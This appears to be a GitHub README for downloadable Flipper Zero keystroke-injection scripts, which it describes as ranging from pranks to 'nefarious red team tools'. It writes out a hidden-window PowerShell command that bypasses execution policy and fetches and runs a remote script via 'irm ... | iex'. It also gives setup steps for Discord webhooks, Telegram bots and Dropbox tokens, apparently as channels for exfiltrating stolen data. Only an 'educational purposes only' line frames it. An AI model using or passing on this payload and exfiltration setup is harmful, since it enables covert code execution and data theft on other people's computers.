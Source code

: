 # Downloadable-Fast-Execution-Scripts-For-FlipperZero

Easy to setup with tutorials for web hooks etc below...

**These scripts download and run from this repo -**

https://github.com/beigeworm/assets/tree/main/Scripts

They use this cmd > `STRING powershell -NoP -Ep Bypass -W H -C $variable='USER_INPUT_HERE'; irm HOSTED_SCRIPT_URL_HERE | iex`

These scripts range from harmless pranks to nefarious red team tools. For educational purposes only! 

**If you want to learn more about the code, or modify them, most of these scripts are in powershell format here**

https://github.com/beigeworm/Powershell-Tools-and-Toys

# Pre-Deployment Setup
Most of these scripts will require some setup before they will work.

eg. `replace DISCORD_WEBHOOK to your webhook.` etc..

**Setup for Telegram, Discord, Dropbox**

**DROPBOX ACCESS TOKEN SETUP**
1. make an app at https://www.dropbox.com/developers/apps (make sure to grant full access to your new app)
2. generate an access token for your app.

**DISCORD WEBHOOK SETUP**
1. (Server Admin Required) On a discord server chat goto > "edit channel" > "integrations" > "webhooks" 
2. make a new webhook, name it and then click "copy webhook URL".

**TELEGRAM BOT SETUP**
1. visit https://t.me/botfather and make a bot.
2. add bot api to script.
3. search for bot in top left box in telegram and start a chat then type /start.
4. add chat ID for the chat bot (use this below to find the chat id) 

`$token='YOUR_TOKEN' #Replace this with your bot Token
$URL='https://api.telegram.org/bot{0}' -f $Token
$inMessage=Invoke-RestMethod -Method Get -Uri ($URL +'/getUpdates') -ErrorAction Stop
$inMessage.result.message | write-output
$inMessage.result.message | get-member`

#  If you like my work please leave a star. ⭐


